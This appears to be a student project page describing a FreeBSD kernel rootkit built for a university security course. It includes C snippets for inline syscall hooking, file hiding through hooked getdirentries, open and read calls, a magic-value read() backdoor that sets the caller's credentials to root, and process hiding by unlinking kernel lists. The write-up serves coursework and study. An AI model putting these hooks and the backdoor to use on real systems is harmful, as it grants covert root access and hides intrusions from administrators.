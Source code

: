 ```yaml
---
layout: page
title: projects
permalink: /projects/
---
```


todo:
writeup on Modular malware
Writeup on rootkit

As part of the UNSW Course COMP6447: System and Software Security Assessment, I worked in a team of four to write a basic rootkit for the FreeBSD OS

# Basic Assignment Specification
## Rootkit

You are permitted to do anything you wish to achieve the following fundamental functionality

    Provide a method to escalate to uid(0) (root) by a low privileged/non-root user/binary.
    Attempt to hide itself from detection. e.g. concealing itself from kldstat, and userland components from find.

## Rootkit Detection

You must return status code 0 if no rootkit is detected, and return 1 if a rootkit is detected. You may print whatever output you wish during the script.

## Fundamental Functionality


### Key Utilities 

#### Inline Hooking

We need a way of communicate to the kernel from userland, we do this via inline hooking of system calls.<br />
We have a utility called `do_hook`, which takes in a function to overwrite and a function to overwrite it with.<br />
```C
void do_hook(void* overwrite, void* func) {
	char* function_to_overwrite = (char*) overwrite;
	char* function_to_call = (char*) func;

	uprintf("Overwriting %p with %p\n", function_to_overwrite, function_to_call);

	int diff = (int) ((function_to_call - function_to_overwrite) - 5);

	int* new_lol = (int*) (function_to_overwrite+1);
	function_to_overwrite[0] = 0xe9; // JMP
	new_lol[0] = diff;
}
```

The first instruction of the original function becomes a x86 JMP32 command. This command has the opcode 0xe9 followed by a 4 byte relative address to where you want to jump to. <br />

We can calculate the relative address by subtracting the function we want to jump to by the address we are patching. func_to_overwrite - func_to_jump_to.
To summarise, we overwrite the function with 0xe9 followed by the calculated offset. This is all done by just referencing the function as a char array, and setting the first 5 bytes.

#### Hidden Files

We also needed a way of creating hidden files from the userland <br />

You'll often see files prepended with hd. We refere to these as hidden files. This indicates the file is hidden from the user and can neither be listed or read from syscalls. <br />

This is all done by using the hooker described above to change `getdirentries`, `open` and `read`.<br />
Specifically the hooks do the following:

* getdirentries: Hidden files are removed from the outputed entries list.
* open: Keeps track of all file descriptors that references a Hidden file via a linked list.
* read: Returns NULL back to the user if the file descriptor refernced is in the linked list of Hidden files.

### Priv Esc

Now we needed a way to escalate to root privs from userland. <br />
This is done by implementing a backdoor in our rootkit module. Specically, the following line of C will increase the privledges of the caller to uid=0.
```C
read(0xdeadbeef, NULL, 0xdeadb33f)
```

This is done internally by editing the current processes `struct ucred`

```C
void escalate_privs(struct thread* td) {
    struct ucred* creds = td->td_ucred;

    // uid
    creds->cr_uid = 0;
    creds->cr_ruid = 0;
    creds->cr_svuid = 0;

    // groups
    creds->cr_rgid = 0;
    creds->cr_svgid = 0;
}
```

### Concealment

## Hiding processes

Freebsd keeps a few lists of running processes in the kernel. Particularly the global lists `p_list` and `p_hash` contains a linked list of running processes. We can therefore simply unlink any processes we wish from these lists, making the processes hidden from other users running tests.

## Bonuses



## Extended Detector

TODO explain detector

